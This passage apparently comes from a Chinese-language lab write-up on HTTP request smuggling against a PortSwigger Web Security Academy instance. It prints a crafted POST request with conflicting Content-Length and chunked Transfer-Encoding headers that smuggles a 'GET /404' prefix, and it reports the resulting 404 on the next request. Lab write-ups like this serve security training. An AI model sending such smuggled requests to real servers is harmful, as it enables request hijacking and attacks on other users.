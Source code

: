 Step 2：随意抓取一个数据包并构造以下Fuzzing请求

```plain
POST / HTTP/1.1
Host: 0ae900850431f4b482522fd000e3007d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-05e97ce712b71758f4c8bdedda9eedf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154646-3eedd8b8-aa0c-1.png)  
第二个包请求后会给一个404响应

[![](assets/1704418275-8d4bd75ebbbd115f4cbeb4846458e6b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154703-48bf7c7a-aa0c-1.png)
